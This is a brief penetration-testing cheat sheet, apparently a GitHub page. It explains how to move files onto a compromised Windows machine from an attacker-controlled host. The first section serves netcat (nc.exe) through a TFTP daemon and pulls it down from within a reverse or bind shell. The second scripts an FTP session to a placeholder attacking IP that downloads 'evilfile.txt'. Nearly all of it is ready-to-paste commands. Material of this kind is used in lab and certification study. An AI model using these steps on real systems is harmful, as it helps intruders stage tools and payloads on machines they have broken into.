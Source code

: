 ### File Transfers
#### TFTP UDP Transfer
```
# Create directory to serve files
mkdir /tftp

# Start atftpd daemon and listen on UDP port 69 using /tftp as root
atftpd --daemon --port 69 /tftp

# Copy file to share to host directory
cp /usr/share/windows-binaries/nc.exe /tftp/

# In your reverse/bind shell on the target machine, change 10.11.1.140 to attacking ip
tftp -i 10.11.1.140 GET nc.exe
```
#### FTP File Transfer
On attacking machine, setup an ftp server
`apt-get install pure-ftpd`

Download and run the following setup file, it will create an ftp user 'bedford'
[setup-ftp](/setup-ftp)

Change user permissions, run file and set password on request
`chmod 755`
`./setup-ftp`

Copy and paste the following code into your Windows target bind/reverse shell
```
echo open *ATTACKINGIP* 21> ftp.txt
echo user bedford>> ftp.txt
echo *PASSWORD*>> ftp.txt
echo bin>> ftp.txt
echo GET evilfile.txt>> ftp.txt
echo bye>> ftp.txt
```
Now in your Windows bind/reverse shell run the ftp.txt file
`ftp -v -n -s:ftp.txt`


